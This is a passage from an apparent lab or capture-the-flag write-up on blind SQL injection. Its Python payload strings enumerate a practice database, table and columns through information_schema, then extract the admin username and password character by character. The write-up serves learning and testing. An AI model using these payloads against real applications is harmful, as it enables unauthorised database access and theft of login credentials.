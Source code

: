 ```python

    if not found_char:
        print(f"Final database name: {currentfound}")
        break
```

We got the database name: **sqli_three**, now that we need to get the table name, simply change the payload as:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like '{currentfound + char}%';--"
)
```
We got the table **users**, repeat the process to find the column name:
```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.COLUMNS "
    f"WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like '{currentfound + char}%';--"
)
```
Once I've found the column named id, I continued to find other columns
```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.COLUMNS "
    f"WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like '{currentfound + char}%' and COLUMN_NAME !='id';--"
)
``` 
Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"UNION SELECT 1,2,3 from users where username like '{currentfound + char}%"
)
``` 
Once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"UNION SELECT 1,2,3 from users where username='admin' and password like '{currentfound + char}%"
)
``` 
![alt text](image-22.png)
